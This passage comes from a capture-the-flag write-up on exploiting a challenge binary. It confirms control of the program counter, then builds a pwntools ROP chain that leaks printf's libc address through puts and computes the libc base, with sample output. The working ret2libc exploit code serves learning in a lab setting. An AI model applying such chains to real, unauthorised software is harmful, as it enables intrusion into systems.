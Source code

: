 ![pc1](pc1.png)

The return pointer points to the gadget that does `sub rsp, 0x50` and `0xc01db0075` is placed in the right spot. the last ret tried to set the program counter to `0xc01db0075`

SUCCESS! This is as good as pwndmfs!

### Leak the libc

Ready to get going with the ret2libc, we construct the following rop-chain using pwntools and add it to the payload in place of `0xc01db0075`


```python
rop = ROP(exe)
rop.puts(exe.got['printf'])
rop.raw(rop.ret.address)   #ALIGN!
rop.raw(exe.sym.main)
```

If you have done ret2libc before this should look familiar. rop.puts() does the pop rdi and argument handling stuff for you, and the stack needed aligning so we put another ret and then loop around to main to get another prompt for input.

This will call `puts` to output the address of `printf` in libc. Knowing an address in libc and it's offset will enable us to calculate any function or gadget in libc. This is powerful stuff!

TL;DR on the stack alignment is always align the stack on 16 bytes. Unaligned stack leads to all sorts of trouble. See the pwn/rip writeup for an excellent explanation why. At this point I just automatically align 6 out of 10 times! 


Next we capture the address of `printf` outputted by `puts`. Then calculate the libc base by subtracting the print-offset in the libc ELF object.
After setting libc.address, any symbol will from now on output the actual address of the symbol.

```python
libc = ELF('./libc.so.6')
io.recvuntil(b'the results:\n')
libc_leak = u64(io.recvline().strip().ljust(8, b'\0'))
log.info(f"printf @ {hex(libc_leak)}")

libc.address = libc_leak - libc.sym.printf
log.info(f"libc @ {hex(libc.address)}")
```

Output:
```
[*] printf @ 0x7ffff7e32c90
[*] libc @ 0x7ffff7dd1000
[*] Switching to interactive mode
Some people say xor encryption is not secure. That is obviously a lie.
What if i told you we can use TWO seperate keys for our encryption, and we keep the keys seucre on our server? No one will ever figure that out!
EPT presents, THE SECURE(tm) XOR ENCRYPT0R!
Enter ciphertext
> $  
```
